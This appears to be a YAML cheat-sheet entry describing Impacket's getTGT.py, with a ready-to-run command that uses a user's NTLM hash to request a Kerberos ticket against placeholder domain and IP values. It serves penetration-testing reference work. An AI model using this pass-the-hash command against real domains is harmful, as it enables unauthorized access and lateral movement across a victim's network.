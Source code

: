 ```yaml
---
description: |
  Impacket's getTGT.py uses a valid user's NTLM hash to request Kerberos tickets, in order to access any service or machine where that user has permissions.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

items:
  Hash:
    - code: |
        python3 getTGT.py test.local/john -dc-ip 10.10.10.1 -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
  Username:
    - code: |
        empty
filters:
  Kerberos:
    - code: |
        empty
  Linux:
    - code: |
        empty
  Windows:
    - code: |
        empty
---
```

